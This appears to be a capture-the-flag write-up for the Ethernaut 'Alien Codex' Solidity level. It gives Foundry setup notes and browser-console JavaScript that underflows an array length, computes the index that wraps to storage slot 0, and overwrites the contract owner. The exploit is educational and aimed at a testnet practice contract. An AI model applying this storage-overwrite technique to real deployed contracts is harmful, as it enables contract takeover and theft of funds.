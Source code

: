 # Alien Codex

[Alien Codex](https://ethernaut.openzeppelin.com/level/0xd8d8184a9F930F8B0F7AD48F14c7437c12fADF96)

<BR />

## Using Foundry with Solidity v0.5.0

_Trying to solve this from Foundry, problems arise because of the support for Solidity v0.5.0_

For example compiling the `AlienTest.t.sol` test  whilst including the import: <BR />
`import "forge-std/Test.sol";`

...fails since `abstract` is supported as from Solidity v0.6.0. <BR />
```
Compiler run failed:
Error: Expected pragma, import directive or contract/interface/library definition.
abstract contract CommonBase {
```

Also running `chisel` fails with: <BR />
```
$ chisel
Error: solc 0.5.0 is not supported by the set evm version: paris. Please install and use a version of solc higher or equal to 0.8.18.
You can also set the solc version in your foundry.toml.

Location:
    chisel\src\session_source.rs:112:21
```


<BR />


## Create Foundry Project

```BASH
mkdir 16_AlienCodex
cd 16_AlienCodex
forge init --no-commit
```

Install OpenZeppelin dependencies for Solidity v0.5.0:
```BASH
forge install OpenZeppelin/openzeppelin-contracts@v2.5.0 --no-commit
```

<BR />



## Attack Setup

1. [./test/AlienTest.t.sol](./test/AlienTest.t.sol) shows how we can mess the array length.


1. From Chrome Console

    ```JS
    // Check the the contact flag is initally set
    await contract.contact()
    // false

    // Set the contact flag to true
    await contract.makeContact()
    await contract.contact()
    // true

    // See the current onwer address
    await contract.owner()
    // '0xd8d8184a9F930F8B0F7AD48F14c7437c12fADF96'

    // Break the array length to get access to all contract storage
    await contract.retract()

    // Storage 0: 0x000000000000000000000001d8d8184a9f930f8b0f7ad48f14c7437c12fadf96
    //              \----------------------/\--------------------------------------/
    //                  Contact Flag                         owner
    //
    // Storage 1: 0xFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF

    ```

1. We can find the array storage for index zero as follows:
    ```JS
    // 1 is the storage slot for the array length
    web3.utils.keccak256(web3.utils.encodePacked(1))
    //0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6
    ```

1. We can confirm this by running tests and checking the state changes from etherscan.


<BR />


### Test 1
1. Setting the length to -1 (0xFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF) 
    ```JS
    await contract.retract()
    ```

1. And pushing 
    ```JS
    await contract.record("0x1234")
    ```

1. We wrote to, [see etherscan.io](https://goerli.etherscan.io/tx/0x40db55613ff17647525fbf9120a6dc736bcf50b229a655f4f67672a0e02b8ae4#statechange): <BR />
    `0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf5`

1. Confirm using:
    ```JS
    await web3.eth.getStorageAt("0x0d005986276C56Cf8da70222CD23dd241D623F97", "0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf5")
    ```

1. Ultimately the length went back to 0 since push increments the array length.

<BR />

### Test 2

1. Setting the length to -2 (0xFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFe) 
    ```JS
    await contract.retract()
    await contract.retract()
    ```

1. And writing to index 0
    ```JS
    await contract.revise(0, "0xabc123")
    ```

1. We wrote to, [see etherscan.io](https://goerli.etherscan.io/tx/0xd5a3878e4973b0ab8f18101445958ec4852c3ceda6e72bbafc8d54b178eb1f25#statechange): <BR />
    `0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6`


1. Confirm using:
    ```JS
    await web3.eth.getStorageAt("0x0d005986276C56Cf8da70222CD23dd241D623F97", "0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6")
    ```


<BR />


### Attack

1. Computing array index that maps to storage location 0:

    ```JS
    limit       = web3.utils.toBN("0xFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF")
    zeroLessOne = web3.utils.toBN("0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf5")
    zero        = web3.utils.toBN("0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6")


    over = limit.sub(zeroLessOne)
    over.toString(16)
    //4ef1d2ad89edf8c4d91132028e8195cdf30bb4b5053d4f8cd260341d4805f30a

    over.add(zero).toString(16)
    //10000000000000000000000000000000000000000000000000000000000000000
    ```

1. Get current value at storage 0
    ```JS
    await web3.eth.getStorageAt("0x0d005986276C56Cf8da70222CD23dd241D623F97" , 0)
    //Current: '0x000000000000000000000001d8d8184a9f930f8b0f7ad48f14c7437c12fadf96'
    //New:     "0x000000000000000000000001CbB9660eA60B895443ef5001B968b6Ae4c0AaA18"
    ```

1. And writing to storage 0
    ```JS
    await contract.revise("0x4ef1d2ad89edf8c4d91132028e8195cdf30bb4b5053d4f8cd260341d4805f30a", "0x000000000000000000000001CbB9660eA60B895443ef5001B968b6Ae4c0AaA18")
    ```

1. Confirm new contract owner:
    ```JS
    await contract.owner()
    await contract.contact()
    ```
